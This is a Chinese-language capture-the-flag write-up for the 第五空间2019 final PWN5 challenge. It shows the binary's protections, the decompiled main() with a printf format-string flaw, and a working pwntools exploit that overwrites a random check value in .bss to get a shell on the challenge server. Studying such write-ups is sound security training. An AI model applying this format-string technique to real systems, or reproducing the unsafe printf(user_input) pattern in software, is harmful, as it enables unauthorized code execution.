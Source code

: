 ```yaml
---
author: 
  name: Zephyr
title: 第五空间2019 决赛 PWN5
date: 2022-3-19 21:30:02
permalink: /pages/2e9547494524d18d
tags: 
  - buuctf
  - pwn
  - FormatString
---
```


# 第五空间2019 决赛 PWN5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int a1)
{
  unsigned int v1; // eax
  int fd; // ST14_4
  int result; // eax
  int v4; // ecx
  unsigned int v5; // et1
  char nptr; // [esp+4h] [ebp-80h]
  char buf; // [esp+14h] [ebp-70h]
  unsigned int v8; // [esp+78h] [ebp-Ch]
  int *v9; // [esp+7Ch] [ebp-8h]

  v9 = &a1;
  v8 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &unk_804C044, 4u);
  printf("your name:");
  read(0, &buf, 0x63u);
  printf("Hello,");
  printf(&buf);
  printf("your passwd:");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == unk_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  v5 = __readgsdword(0x14u);
  v4 = v5 ^ v8;
  if ( v5 != v8 )
    sub_80493D0(v4);
  return result;
}
```

程序运行时在`unk_804C044`处写入随机数，在最后一次输入结束后，若与`unk_804C044`处的随机数相等，可获得`shell`

## 思路分析

1. 目前信息
   - 第一次输入处存在格式化字符串漏洞
   - PIE关闭
   - `unk_804C044`是在`bss`段，地址可确定
2. 问题
   - 需要绕过与随机数对比的判断
3. 解决思路
   - 通过`printf`的格式化字符串漏洞，使用`%?$hhn`的方式逐字节修改`unk_804C044`的值，在最后一次输入时传入对应的值，通过自己与自己的比较绕过判断获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
io = remote('node4.buuoj.cn', 25502)
# io = process(pwnfile)
bss_804C044 = 0x804C044
payload = flat([bss_804C044, bss_804C044+1, bss_804C044+2,bss_804C044+3, "%10$hhn%11$hhn%12$hhn%13$hhn"])
# 逐字节修改bss_804C044，printf在打印格式化字符串之前一共打印了16个，修改后bss_804C044的值应为0x10101010
io.sendlineafter('name:', payload)
io.sendlineafter('passwd:', str(0x10101010))
io.interactive()
```